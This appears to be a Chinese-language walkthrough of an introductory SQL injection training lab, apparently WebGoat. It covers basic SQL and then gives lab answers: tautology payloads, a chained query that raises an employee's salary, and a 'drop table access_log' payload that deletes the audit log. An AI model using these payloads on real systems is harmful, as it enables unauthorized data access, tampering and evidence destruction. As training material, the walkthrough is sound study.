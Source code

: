 # SQL Injection(intro)

## What is SQL  

给了一个数据库的表，叫'employees'  
![alt text](image.png)  
要用SQL查Bob Franco的department，sql语言如下  

```sql
select department from employees where first_name='Bob' and last_name='Franco'
```
![alt text](image-1.png)  


## Data Manipulation Language(DML)  

还是同样的表，这次要更新表中的数据，sql代码如下  
```sql
update employees set department='Sales' where first_name='Tobi' and last_name='Barnett'
```  
![alt text](image-2.png)  

## Data Definition Language(DDL)  
这次在employees表中添加phone列，类型是varchar(20),sql代码如下  
```sql  
alter table employees add phone varchar(20)
```  
![alt text](image-3.png)  

## Data Conntrol Language(DCL)  

要给一个用户授予表grant_rights的权，什么权没说，好像可以随便授权，sql代码如下  
```sql
grant select on grant_rights to unauthorized_user
```  
![alt text](image-4.png)  


## Try It! String SQL injecton  

要查询所有的信息，相当于在输入框中输入  
```
Smith' or '1'='1
```  
![alt text](image-5.png)  


## Try It! Numeric SQL injection  

答案是这样的
![alt text](image-6.png)  
![alt text](image-7.png)  
最下面有这样一句  
```
Your query was: SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
```  
但是如果在Login_Count先打一个空格在填1，就像这样  
![alt text](image-8.png)  
下面也是  
```  
Your query was: SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1  
```
他告诉的两个查询并无二致，但是确实错了，因为加了就不能是数字了。  
![alt text](image-9.png)  
我怀疑上面是不是少了几个引号  

## 11  
没什么好说的  
![alt text](image-10.png)  
![alt text](image-11.png)  

## SQL query chaining  
要把Smith的工资改的最高  
![alt text](image-13.png)  

1. 通过下面语句完成修改  
```sql
update employees set salary = 99999 where last_name = 'Smith';

```
2. 那么TAN这样注入  
```
3SL99A';update employees set salary=99999 where last_name='Smith
```

3.完成  
 ![alt text](image-12.png)  

## Compromising Availablity  

因为之前修改被记录了，要删除access_log表。  
![alt text](image-14.png)  
没什么好说的  
```
1'; drop table access_log
```
![alt text](image-15.png)  